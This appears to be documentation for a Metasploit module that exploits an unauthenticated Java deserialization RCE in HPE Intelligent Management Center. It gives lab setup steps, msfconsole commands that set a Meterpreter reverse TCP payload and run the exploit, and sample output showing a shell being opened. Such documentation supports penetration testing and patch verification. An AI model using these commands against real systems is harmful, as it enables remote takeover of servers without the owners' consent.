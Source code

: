 The module exploits a RCE bug on vulnerable installations of Hewlett Packard Enterprise Intelligent Management Center. Authentication is not required.

The specific flaw exists within the `WebDMDebugServlet`, which listens on TCP ports `8080` and `8443` by default. The issue results from the lack of proper validation of user-supplied data, which can result in deserialization of untrusted data. An attacker can leverage this vulnerability to execute arbitrary code in the context of SYSTEM.


## Vulnerable Application

  On a Windows machine, download and install a trial version of HPE IMC from here:

  [https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=](https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=)

  You need .Net 2.0, but that's the only dependency.

  Make sure to follow any instructions on setting up SSL correctly (certain cipher suites does not play well with the software). These instructions may vary depending on the win version you set it up on. On a Windows Server 2012 R2 I had to disable certain cipher suites. The exploit has been tested on Windows Server 2012 R2 and Windows Server 2008 R2.

## Verification Steps

  A successful check of the exploit will look like this:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/hp_imc_java_deserialize```
  4. Do: ```set RHOSTS <RHOSTS>```
  5. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp``` 
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```check```
  8. **Verify** that you are seeing `The target is vulnerable.` in console.
  9. Do: ```exploit```
  10. You should get a meterpreter shell.

## Options

  **TARGETURI**

  Path to the IMC application, the default location is `/imc`.

  **SSL**

  As set up by default, IMC is vulnerable both over port `8080` and `8443` (SSL). Set this parameter to `true` and change `RPORT` if you'd like to exploit over SSL.

  **RPORT**

  Set this to the appropriate port, `8080` (default) or `8443`.

## Scenarios

All versions below 7.3 E0504P2 should be vulnerable remotely.

### HPE IMC 7.3 E0504P2

  Here's showing the expected output:

  ```
  msf > exploit

  [*] Started reverse TCP handler on 10.0.0.1:4444 
  [*] Sending serialized Java object (11290 bytes)...
  [*] Sending stage (179779 bytes) to 10.0.0.2
  [*] Meterpreter session 2 opened (10.0.0.1:4444 -> 10.0.0.2:49284) at 2018-11-17 09:43:07 +0100

  meterpreter > sysinfo 
  Computer        : SERVER_NAME
  OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  meterpreter > 
  ```